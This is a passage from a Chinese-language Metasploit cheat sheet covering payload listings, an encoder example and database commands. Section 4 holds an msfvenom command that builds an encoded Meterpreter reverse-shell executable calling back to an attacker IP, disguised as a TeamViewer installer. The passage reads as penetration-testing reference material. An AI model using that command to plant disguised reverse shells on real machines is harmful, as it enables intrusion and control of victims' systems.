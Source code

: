 ### 3. Payload

```shell
show payloads  # 展示所有 Payload
grep meterpreter show payloads  # 搜索 meterpreter 的 Payload
```

| 有效载荷                              | 描述                                          |
| --------------------------------- | ------------------------------------------- |
| generic/custom                    | 通用监听器，多用途                                   |
| generic/shell\_bind\_tcp          | 通用监听器，多用，普通shell，TCP连接绑定                    |
| generic/shell\_reverse\_tcp       | 通用监听器，多用，普通shell，反向TCP连接                    |
| windows/x64/exec                  | 执行任意命令 (Windows x64)                        |
| windows/x64/loadlibrary           | 加载任意 x64 库路径                                |
| windows/x64/messagebox            | 使用可自定义的标题、文本和图标通过 MessageBox 生成对话框          |
| windows/x64/shell\_reverse\_tcp   | 普通外壳，单一负载，反向 TCP 连接                         |
| windows/x64/shell/reverse\_tcp    | 普通shell，stager + stage，反向TCP连接              |
| windows/x64/shell/bind\_ipv6\_tcp | 普通shell，stager + stage，IPv6 Bind TCP stager |
| windows/x64/meterpreter/$         | Meterpreter 有效载荷 + 以上品种                     |
| windows/x64/powershell/$          | 交互式 PowerShell 会话 + 上述品种                    |
| windows/x64/vncinject/$           | VNC Server (Reflective Injection) + 以上品种    |

### 4. 编码器

```shell
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=8080 -e x86/shikata_ga_nai -f exe -i 10 -o /root/Desktop/TeamViewerInstall.exe
```

### 5. 数据库

```shell
sudo systemctl start postgresql  # 启动 postgresql 数据库
sudo msfdb init  # 启动 MSF 数据库
sudo msfdb run # 连接到启动的数据库
	help d
# 工作区
    workspace # 查看全部工作区
    workspace -a name # 创建工作区
    workspace -d name # 删除指定工作区
    workspace name # 切换到指定工作区

# 导入其他工作 (eg : nmap) 扫描结果，只支持导入 .xml
db_import Target.xml

# 数据库备份
db_export -f xml backup.xml  # 导出到指定文件中

hosts -h  # 主机地址、主机名和我们在扫描和交互过程中找到的有关这些的其他信息
services -h # 包含有关在扫描或交互期间发现的服务的描述和信息
creds -h  # 手机与目标主机交互的凭据
loot -h # 提供拥有服务和用户的概览列表

```
